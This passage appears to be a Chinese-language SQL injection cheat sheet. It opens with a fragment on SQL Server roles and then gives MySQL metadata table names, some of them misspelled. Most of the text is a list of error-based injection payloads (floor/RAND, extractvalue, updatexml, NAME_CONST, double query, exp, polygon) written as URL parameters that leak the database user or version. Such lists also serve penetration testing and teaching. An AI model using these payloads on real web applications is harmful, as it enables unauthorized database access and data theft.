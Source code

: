 **db_denydatawriter**  不能更改数据库内任何用户表中的任何数据。

一般使用sa（登录名）或Windows administration（Windows 集成验证登陆方式）登陆，这种登录名具有最高的服务器角色，可对服务器进行任何操作，登录名具有的用户名是dbo（系统级），具有对所有用户创建的数据库中的数据进行一切操作权限。

**用户** db_owner、sysadmin、public、serveradmin 、secadmin、sa

## Mysql

**库名** information_schema.schemata

**表名** information_schenma.tables

**表字段名** information_schenam.columns

**版本** version()或者 @@version

**当前数据库** database()



### **报错注入常用函数** 

**floor**

```url
?id=1 OR (SELECT 8627 FROM(SELECT COUNT(*),CONCAT(0x70307e,(SELECT user()),0x7e7030,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
```

**ExtractValue(有长度限制,最长32位)**
```url
?id=1 and extractvalue(1, concat(0x7e, (select @@version),0x7e))

```

**UpdateXml(有长度限制,最长32位)**

```url
?id=1 and updatexml(1,concat(0x7e,(SELECT @@version),0x7e),1)
```

**NAME_CONST(适用于低版本，不太好用)**
```url
?id=261 and 1=(select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)
```

**Error based Double Query Injection**
```url
?id=1 or 1 group by concat_ws(0x7e,version(),floor(rand(0)*2)) having min(0) or 1
```

**exp(5.5.5以上)**

```url
id=1 and (select exp(~(select * from(select user())x)))
```
**polygon**
```url
mysql> select * from users where username=""and polygon (password);
ERROR 1367 (22007): Illegal non geometric '`security`.`users`.`password`' value found during parsing
```
